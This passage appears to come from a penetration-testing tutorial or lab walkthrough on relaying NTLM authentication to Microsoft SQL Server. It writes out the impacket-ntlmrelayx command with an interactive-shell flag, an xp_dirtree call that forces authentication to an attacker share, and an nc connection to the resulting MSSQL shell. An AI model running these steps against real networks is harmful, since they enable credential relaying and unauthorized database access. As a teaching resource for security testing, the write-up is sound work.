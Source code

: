 !!!
If you are relaying against many hosts at once via the `-tf` flag in `ntlmrelayx`, it is super important to note the protocol for each host, for instance:

mssql://host1

mssql://host2

If that is not the case, `ntlmrelayx` will always relay to SMB.
!!!

Now let's setup the `ntlmrelayx`:

`impacket-ntlmrelayx -t mssql://172.16.16.52 -smb2support -ts -debug -i`

Here, the `-i` flag is super important. This flag will start fully functional `mssqlclient` shell against the target, if the authentication succeded. If this flag is missing, `ntlmrelayx` will try to execute SQL queries instead.

To exploit, it is enough to trigger `xp_dirtree` again

`xp_dirtree \\172.16.16.130\share\asd`

!!!
If you are relaying into multiple targets from file, you may need to trigger the authentication several times if the process hangs up.
!!!

![Relaying the credentials of `LSEC\sql1` user against another database](relay.png)

After the relaying is successful, `ntlmrelayx` tells us that there is interactive MSSQL shell on `127.0.0.1:11000`. Let's connect with nc:

`nc 127.0.0.1 11000`
